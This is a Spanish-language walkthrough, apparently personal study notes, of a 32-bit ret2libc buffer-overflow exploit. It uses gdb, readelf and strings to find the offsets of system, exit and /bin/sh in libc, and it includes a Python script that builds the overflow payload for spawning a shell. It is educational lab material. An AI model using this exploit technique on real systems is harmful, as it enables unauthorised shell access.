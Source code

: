 ```
p system
```

![[Pasted image 20231022130954.png]]

Obtenemos **exit**

```
p exit
```

![[Pasted image 20231022131049.png]]

Obtenemos **/bin/sh**

```
find "/bin/sh"
```

![[Pasted image 20231022131150.png]]

para obtener los offset de **system y exit** **libc** podemos utilizar **readelf** 

```sh
readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
```

![[Pasted image 20231022132742.png]]

Para obtener el offset de **/bin/sh** podemos utilizar **string**

```sh
strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep "/bin/sh"
```

![[Pasted image 20231022133419.png]]

Teniendo todos los datos necesarios creamos un script de python

```python
#!/usr/bin/python3

import subprocess
from struct import pack

before_eip = b"A"*112

# ret2libc --> system + exit + bin_sh

base_libc_addr = 0xb7d52000

# sirseba@ubuntu-BOF:~$ readelf -s /lib/i386-linux-gnu/libc.so.6 | grep -E " system| exit"
#    141: 0002e9d0    31 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
#   1457: 0003ada0    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
#         15ba0b /bin/sh

# OFFSET
system_off = 0x0003ada0
exit_off = 0x0002e9d0
bin_sh_off = 0x0015ba0b

# DIRECCION REAL
system_addr = pack("<L", base_libc_addr + system_off)
exit_addr = pack("<L", base_libc_addr + exit_off)
bin_sh_addr = pack("<L", base_libc_addr + bin_sh_off)

payload = before_eip + system_addr + exit_addr + bin_sh_addr

```